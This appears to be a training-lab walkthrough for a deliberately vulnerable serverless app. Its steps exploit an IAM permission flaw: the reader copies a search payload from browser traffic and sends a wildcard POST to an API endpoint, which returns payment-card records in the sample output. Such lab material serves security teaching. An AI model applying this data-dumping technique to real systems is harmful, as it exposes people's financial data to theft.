




## Exploit based on IAM Permission Flaw

##### Step 1:

* Open browser


##### Step 2:

* open `http://sls-training-ui.s3-website-us-east-1.amazonaws.com/` to access the XML-Uploader application.



##### Step 3:

* Click on `Search` icon to search for information.




##### Step 4:

* Click `Shift + f9` or right click on top of the browser and click on `Web Developer` to select the `Networks` tab.


##### Step 5:

* Search user related info

    **Note:** Copy the URL



##### Step 6:

* Click on the `Params` tab

    **Note:** Copy the json payload




##### Step 7:

* Open Terminal


##### Step 8:

* Run `http POST https://a2to86jcrb.execute-api.us-east-1.amazonaws.com/api/bad_dynamo_search <<<'{
        "db": "payment-cards",
        "search_field": "card_number",
        "search_operator": "GT",
        "search_term": "*"
    }'` to get all the payment card information from the database.
    
    ```commandline
    http POST https://a2to86jcrb.execute-api.us-east-1.amazonaws.com/api/bad_dynamo_search <<<'{
            "db": "payment-cards",
            "search_field": "card_number",
        "search_operator": "GT",
        "search_term": "*"
    }'
    HTTP/1.1 200 OK
    Access-Control-Allow-Headers: Authorization,Content-Type,X-Amz-Date,X-Amz-Security-Token,X-Api-Key
    Access-Control-Allow-Origin: *
    Connection: keep-alive
    Content-Length: 2169
    Content-Type: application/json
    Date: Tue, 09 Oct 2018 01:32:53 GMT
    Via: 1.1 aa89533ad2ec5e0edba466c9920bd000.cloudfront.net (CloudFront)
    X-Amz-Cf-Id: X8szCarsQAv9oUWSw82v9hpsA-QyfvP8PlDA1cIIgocKOITW2661dg==
    X-Amzn-Trace-Id: Root=1-5bbc0545-5a84835cd05bd8b4bd31a502;Sampled=0
    X-Cache: Miss from cloudfront
    x-amz-apigw-id: OeXCzHEgoAMFqSw=
    x-amzn-RequestId: 3db038ff-cb63-11e8-92a8-adaf88305995
    
    {
        "search_results": [
            {
                "card_number": {
                    "S": "4994684175713024"
                },
                "cardholder": {
                    "S": "Amanda Smith"
                },
                "exp_date": {
                    "N": "523"
                }
            }
            ]
            }
    ```
    
 

